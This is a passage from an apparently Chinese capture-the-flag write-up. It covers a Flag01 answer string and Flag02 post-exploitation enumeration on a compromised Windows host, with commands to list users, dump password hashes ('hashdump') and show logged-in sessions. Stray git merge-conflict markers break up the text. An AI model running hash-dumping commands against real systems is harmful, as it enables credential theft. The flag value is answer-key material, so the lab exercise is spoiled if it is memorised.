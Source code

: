 ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
flag{f61edeff-5177-40cb-b8fd-4490a483f0df}
```

# Flag02

根据 flag01 的提示，需要看一下 user session

在这台机子里面进行信息收集

查看所有用户

<<<<<<< HEAD
```plain
shell net user
```

[![](assets/1710898702-f778d23a2a111fa98af6de12ae7e51bb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095349-b3f38d62-e1a5-1.png)

```plain
hashdump
```

[![](assets/1710898702-af53923e0b41776f2a3362f845b078f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095354-b69b0752-e1a5-1.png)

查看在线用户

```plain
shell quser || qwinst
```
